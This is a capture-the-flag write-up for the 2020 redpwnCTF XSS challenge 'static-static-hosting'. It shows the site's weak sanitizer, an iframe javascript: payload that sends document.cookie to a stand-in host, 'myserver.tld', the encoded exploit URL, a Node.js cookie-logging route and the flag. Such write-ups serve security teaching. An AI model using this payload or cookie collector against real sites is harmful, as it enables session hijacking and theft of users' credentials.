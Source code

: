 # static-static-hosting

Author: [roerohan](https://github.com/roerohan)

This is another XSS challenge, similar to [this](../static-pastebin) one.

# Requirements

- Basic knowledge of XSS.
- Server with SSL to accept a request.

# Source

- https://static-static-hosting.2020.redpwnc.tf/

# Exploitation

This site allows you to write HTML, so it's basically shouting at you to perform an XSS attack. Similar to [static-pastebin](../static-pastebin), the URL of the webpage created actually consists a base64 encoded form of the content of the page. We can see the `js` in the source.

```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.documentElement.innerHTML = clean(input);
}

function clean(input) {
    const template = document.createElement('template');
    const html = document.createElement('html');
    template.content.appendChild(html);
    html.innerHTML = input;

    sanitize(html);

    const result = html.innerHTML;
    return result;
}

function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```

The main thing we notice is that it prevents `script` tags and it allows only the following attributes for an element: `'src', 'width', 'height', 'alt', 'class'`. So we have to perform an XSS with these attributes. So, here's the payload.

```
<iframe src="javascript:document.location='https://myserver.tld?cookie='+document.cookie"></iframe>
````

Note that here, the site is supposed to be `https`, otherwise there will be a Content Security Policy Bypass (CSP Bypass) error, and the request won't be sent. We can get the URL of the resulting webpage:

```
https://static-static-hosting.2020.redpwnc.tf/site/#PGlmcmFtZSBzcmM9ImphdmFzY3JpcHQ6ZG9jdW1lbnQubG9jYXRpb249J2h0dHBzOi8vbXlzZXJ2ZXIudGxkP2Nvb2tpZT0nK2RvY3VtZW50LmNvb2tpZSI+PC9pZnJhbWU+
```

On the server, we can create a simple Node.js backend which accepts the cookie as a query param and logs it.

```javascript
router.get('/cookie', (req, res) => {
	console.log(req.query.cookie);
}
```

When the link for the website is sent to the `admin bot`, which is basically a headless chrome browser, it visits the page and it's cookie is stolen and sent to the server at `myserver.tld`. The cookie stores the `flag`.
<br />

The flag is:

```
flag{wh0_n33d5_d0mpur1fy}
```